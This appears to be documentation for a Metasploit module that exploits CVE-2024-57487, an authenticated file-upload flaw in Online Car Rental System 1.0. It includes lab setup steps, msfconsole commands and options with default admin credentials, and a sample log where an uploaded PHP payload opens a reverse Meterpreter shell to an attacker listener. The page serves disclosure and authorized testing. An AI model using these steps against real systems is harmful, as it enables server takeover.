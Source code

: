## Vulnerable Application

The **Online Car Rental System 1.0** is vulnerable to **Authenticated Remote Code Execution (RCE)** due to an insecure file upload mechanism. Specifically, the `changeimage1.php` endpoint in the admin panel does not validate uploaded file types, allowing authenticated users to upload arbitrary PHP scripts. These scripts can be accessed and executed via a predictable file path, leading to full remote code execution.

You can download the vulnerable software from the following link:
🔗 [Online Car Rental System 1.0 - Source Code](https://code-projects.org/online-car-rental-using-php-source-code/)

This module exploits the vulnerability by authenticating to the admin panel, uploading a malicious PHP payload
using the vulnerable endpoint, and executing it to gain remote access.

- **CVE**: [CVE-2024-57487](https://nvd.nist.gov/vuln/detail/CVE-2024-57487)
- **Author**: Aaryan Golatkar
- **Disclosure Date**: 13/01/2025

---

## Verification Steps

### Vulnerable Application Installation Setup

#### For Windows:
1. Start Apache and MySQL via the **XAMPP Control Panel**.
2. Extract the Online Car Rental System 1.0 source code.
3. Place the extracted folder inside `htdocs` (e.g., `C:\xampp\htdocs\carrental`).
4. Navigate to `http://localhost/phpmyadmin` in your browser.
5. Create a database (e.g., `carrental_db`), and import the SQL dump (`carrental.sql`) provided in the `database` directory.
6. Visit `http://localhost/carrental/` to verify installation.

#### For Linux:
1. Start services: `sudo systemctl start apache2 && sudo systemctl start mysql`
2. Install PHPMyAdmin: `sudo apt install phpmyadmin -y`
3. Edit `/etc/apache2/apache2.conf` and append:
   ```
   Include /etc/phpmyadmin/apache.conf
   ```
4. Extract the project into `/var/www/html/`
5. Follow the same steps as Windows from here onward.

---

## Exploit Module Usage

### Start msfconsole and load the exploit:

```bash
msfconsole
use exploit/multi/http/carrental_fileupload_rce
```

### Set the required options:

```bash
set rhosts <target_ip>
set rport <port>
set targeturi /carrental
set username <admin_username>      # Default: admin
set password <admin_password>      # Default: Test@12345
set lhost <your_ip>
set lport <your_port>
```

---

## Checking Target Vulnerability

```bash
check
```

If vulnerable, you will see:

```
[+] <IP> The target appears to be the Online Car Rental System.
```

---

## Launching the Exploit

```bash
exploit
```

If successful, you will receive a Meterpreter shell.

---

## Scenarios

```bash
msf exploit(multi/http/carrental_fileupload_rce) > check
[*] Checking if target is vulnerable...
[+] 192.168.1.103:80 - The target appears to be the Online Car Rental System.

msf exploit(multi/http/carrental_fileupload_rce) > exploit
[*] Started reverse TCP handler on 192.168.1.104:4444 
[*] Uploading PHP Meterpreter payload as WxAqV7.php...
[+] Payload uploaded successfully!
[*] Executing the uploaded shell at /carrental/admin/img/vehicleimages/WxAqV7.php...
[*] Sending stage (40004 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.104:4444 -> 192.168.1.103:60615)

meterpreter > sysinfo
Computer    : DESKTOP-1234
OS          : Windows NT 10.0 build 19045 (Windows 10)
Meterpreter : php/windows
```

---

## Options

| Option       | Required | Description                                           |
|--------------|----------|-------------------------------------------------------|
| `TARGETURI`  | Yes      | The base path to the Car Rental System (e.g., `/carrental`) |
| `USERNAME`   | Yes      | Admin username (default: `admin`)                    |
| `PASSWORD`   | Yes      | Admin password (default: `Test@12345`)               |
| `RHOSTS`     | Yes      | The target IP address                                |
| `RPORT`      | Yes      | The target web server port (default: 80)             |
| `LHOST`      | Yes      | The local host to receive the reverse shell          |
| `LPORT`      | Yes      | The local port to receive the reverse shell          |

---
